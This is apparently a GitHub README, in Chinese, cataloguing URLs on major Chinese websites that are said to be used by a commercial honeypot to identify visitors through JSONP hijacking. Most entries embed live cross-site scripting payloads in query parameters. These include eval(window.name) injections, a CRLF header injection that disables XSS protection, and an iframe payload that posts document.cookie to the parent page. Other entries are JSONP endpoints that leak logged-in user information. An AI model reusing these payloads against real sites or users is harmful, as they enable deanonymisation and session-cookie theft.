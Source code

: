 # MoAn_Honey_Pot_Urls
X安蜜罐用的一些存在JSonp劫持的API

# URLs

- http[:]//api-live.iqiyi.com/stream/geth5?qd_tm=1553094041094&&xxoo=chrome-extension://&typeId=1&platform=7&vid=0&qd_vip=0&qd_uid=2327344064&qd_ip=x.x.x.x&qd_vipres=0&qd_src=h5_xiu&qd_tvid=0&_=1553094041094&callback=%3Csvg/onload=eval(name)%3E
爱奇艺

- http[:]//comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?ibc=newspc&callback=jsonp_1576488793844&_=1576488793845 
163

- http[:]//musicapi.taihe.com/v1/restserver/ting?from=web&format=json&param=LSybM0sdw2aqEfumhdonnx8fVeIHBQtuiPCKUtmcDzyQAMZmL9gayz8xP%2FHmDp%2BH&timestamp=1574934266&sign=6d4fb00655a40b21407243b6be7274a4&method=baidu.ting.ugccenter.getUserBaseInfo&callback=? 
泰禾音乐集团

- https[:]//login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&_=1552901735056&callback=? 
渣浪

- http[:]//comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/0/dailyAchv?ibc=newspc&from=all&callback=? 
163评论

- https[:]//wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=eval(name)%3E&c=&i=0 
博客园

- https[:]//hudong.vip.youku.com/act/mili/download.html?mobile=1&xxoo=chrome-extension://&download=javascript:new%20Function(name)();//https[:]//down2.uc.cn///https[:]//itunes.apple.com/app 
优酷

- http[:]//wapsite.baidu.com/j.php?z=2&xxoo=chrome-extension://&page=index_cxv3&pos=search_rsc_n2&level=1&ver=android&url=%0D%0Ahttp[:]//m.baidu.com/%0D%0aX-XSS-Protection:0%0d%0a%0d%0a%3Cscript%3Eeval(window.name)%3C/script%3E 
百度

- http[:]//databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http[:]//www.dangdang.com/&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=123&callback=%22%3E%3Cscript%3Eeval(name)%3C/script%3E 
当当

- http[:]//databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http%253A%252F%252Fwww.dangdang.com%252F&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=%255B%2522mix_317715.3208542%252C9339%252C9354..%2522%252C%2522mix_317715.3208542%252C9339%252C9356..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9341..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.1.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.2.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.3.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.4.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.5.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.6.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.7.%2522%255D&callback=%3Ciframe/src=javascript:eval(%22window.parent.window.parent.postMessage({source:%20%22dangdang%22,%20d:%20document.cookie},%20%22*%22);%22)%3E 
当当

- https[:]//api.csdn.net/oauth/authorize?client_id=1000001&xxoo=chrome-extension://&redirect_uri=http[:]//www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E 
CSDN

- https[:]//zhifu.baidu.com/proxy/req/newcashier?cityId=&customerId=55&defaultResPage=0&deviceType=3&extData=&ext_store_no=&failUrl=&imei=&itemInfo=[{%22id%22:%22IPRQZ1598593080ba981c084142%22,%22number%22:1,%22price%22:10000,%22name%22:%221%22}]&mobile=&notifyUrl=http[:]//quzheng.baidu.com/iprweb/v1/pay_status&orderCreateTime=1598593081&orderExpireTime=&orderId=IPRQZ1598593080ba981c084142&originalAmount=1&passScope=&passuid=&payAmount=1&returnUrl=http[:]//quzheng.baidu.com/iprweb/v1/pay_return&sdk=0&sdkStyle=0&service=Cashier&sourceApp=&spData=&tag=&title=%3C/script%3E%3Cscript%3Eeval(window.name)%3C/script%3E&tn=&tpl=2&url=&signType=md5orchrome-extension://&sign=659ff744e50cbe1ceb4892af43d9f7f6 
百度

- https[:]//www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin&callback=jQuery22407402084422104858_1604891765254&callback=jQuery15208825534966858746_1621838003202&_=1621838003273 
虎牙

- https[:]//m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E 
新浪

- https[:]//mooc1-1.chaoxing.com/api/workTestPendingNew?&xxoo=chrome-extension://&classIds=%3CScRiPt%3Eeval(name)%3C/sCrIpT%3E 
超星尔雅

- https[:]//accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=jQuery2398423949823&callback=jQuery15208825534966858746_1621838003204&_=1621838003279 
携程

- https[:]//myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1621838003278 
苏宁

- http[:]//my.zol.com.cn/public_new.php?xxoo=chrome-extension:// 
中关村

- https[:]//bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1621838003277&callback=jQuery15208825534966858746_1621838003203 
直播8

- http[:]//passport.tianya.cn/online/checkuseronline.jsp?t=1584614187028&callback=callback&xxoo=chrome-extension:// 
天涯

- https[:]//api.m.jd.com/api?appid=pc_home_page&xxoo=chrome-extension://&functionId=getBaseUserInfo&loginType=3&jsonp=jsonp2 
京东

- https[:]//api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://&body=%7b%22%73%65%63%6f%6e%64%54%61%62%49%64%22%3a%22%30%30%31%35%35%35%35%34%37%30%38%39%33%5f%30%33%37%32%36%36%30%30%5f%22%2c%22%74%79%70%65%22%3a%22%30%22%2c%22%70%61%67%65%4e%75%6d%22%3a%22%31%22%2c%22%6d%69%74%65%6d%41%64%64%72%49%64%22%3a%22%22%2c%22%67%65%6f%22%3a%7b%22%6c%6e%67%22%3a%22%22%2c%22%6c%61%74%22%3a%22%22%7d%2c%22%61%64%64%72%65%73%73%49%64%22%3a%22%22%2c%22%70%6f%73%4c%6e%67%22%3a%22%22%2c%22%70%6f%73%4c%61%74%22%3a%22%22%2c%22%66%6f%63%75%73%22%3a%22%22%2c%22%69%6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1 
京东

- https[:]//p.qiao.baidu.com/cps3/chatIndex?siteToken=%3C/script%3E%3Cimg%20src=x%20onerror=eval(window.name)%3E&xxoo=chrome-extension://&speedLogId=&eid=28181423&reqParam=%7B%22from%22%3A0%2C%22sid%22%3A%22-100%22%2C%22tid%22%3A%22-1%22%2C%22ttype%22%3A1%2C%22siteId%22%3A%2213768072%22%2C%22userId%22%3A%2228181423%22%2C%22pageId%22%3A0%7D 
百度

- https[:]//home.51cto.com/index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension:// 
51cto

- https[:]//home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823 
城通网盘
